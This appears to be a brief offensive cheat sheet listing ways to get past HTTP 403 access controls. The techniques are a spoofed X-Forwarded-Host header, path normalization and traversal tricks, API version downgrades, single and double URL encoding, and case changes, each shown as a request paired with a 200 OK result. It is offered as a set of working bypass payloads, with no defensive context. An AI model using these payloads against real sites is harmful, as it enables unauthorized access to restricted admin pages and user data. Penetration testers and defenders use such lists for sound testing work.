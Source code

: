 ### Adding X-Forwarded-Host Header
```
X-Forwarded-Host: 127.0.0.1 >> 200 OK
```
### Exploiting Path Normalization
```
/secure/admin >> 403 Access Denied
/secure/./admin >> 200 OK
```
### Path traversal
```
/admin >> 403 Access Denied
/secure/../admin >> 200 OK
```
### api version changing
```
/v2/users/1337 >> Access Denied
/v1/users/1337 >> 200 OK
/v1.1/users/1337 >> 200 OK
```
### HTML encoding
```
/hidden >> 403 Access Denied
/hidde%6e >> 200 OK
```
If it not works, try double encoding.
```
/hidde%256e > 200 OK
```
### Case changing
```
/admin >> 403 Access Denied
/admiN >> 200 OK
```
